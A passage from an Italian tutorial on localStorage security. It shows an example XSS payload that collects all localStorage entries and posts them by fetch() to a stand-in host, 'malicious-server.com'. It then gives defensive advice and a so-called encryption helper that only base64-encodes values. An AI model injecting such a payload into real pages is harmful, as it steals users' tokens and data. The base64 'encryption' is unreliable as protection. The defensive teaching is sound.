 ```javascript
// Esempio di codice malevolo che potrebbe essere iniettato in caso di vulnerabilità XSS
const stolenData = {};
for (let i = 0; i < localStorage.length; i++) {
  const key = localStorage.key(i);
  stolenData[key] = localStorage.getItem(key);
}
// Invia i dati rubati a un server malevolo
fetch('https://malicious-server.com/steal', {
  method: 'POST',
  body: JSON.stringify(stolenData)
});
```

Per questo motivo, è fondamentale:

1. **Non memorizzare dati sensibili**: evitare di memorizzare password, token di autenticazione a lunga durata, dati personali sensibili o informazioni finanziarie nel localStorage.

2. **Implementare protezioni contro XSS**: utilizzare tecniche come la sanitizzazione dell'input, la validazione dei dati e l'utilizzo di Content Security Policy (CSP) per ridurre il rischio di attacchi XSS.

### Accesso tra origini

Il localStorage è vincolato dalla Same-Origin Policy, il che significa che i dati memorizzati sono accessibili solo dal dominio che li ha creati. Questo è un meccanismo di sicurezza importante, ma è importante tenere presente che sottodomini diversi sono considerati origini diverse.

Ad esempio, `example.com`, `sub1.example.com` e `sub2.example.com` sono considerati origini diverse e non possono accedere al localStorage l'uno dell'altro.

### Dati non crittografati

I dati nel localStorage sono memorizzati in chiaro (non crittografati) sul dispositivo dell'utente. Questo significa che chiunque abbia accesso fisico al dispositivo potrebbe potenzialmente accedere ai dati memorizzati.

Se è necessario memorizzare dati sensibili lato client, è consigliabile utilizzare tecniche di crittografia:

```javascript
// Funzione per crittografare i dati prima di memorizzarli
function encryptAndStore(key, value, secretKey) {
  // Questa è una semplificazione, in un'applicazione reale si dovrebbe
  // utilizzare una libreria di crittografia robusta come CryptoJS
  const encryptedValue = btoa(value) + '_encrypted'; // Esempio molto semplificato
  localStorage.setItem(key, encryptedValue);
}

// Funzione per decrittografare i dati dopo averli recuperati
function retrieveAndDecrypt(key, secretKey) {
  const encryptedValue = localStorage.getItem(key);
  if (!encryptedValue) return null;
  if (!encryptedValue.endsWith('_encrypted')) return encryptedValue;
  
  // Decrittografia (semplificata)
  return atob(encryptedValue.replace('_encrypted', ''));
}
```
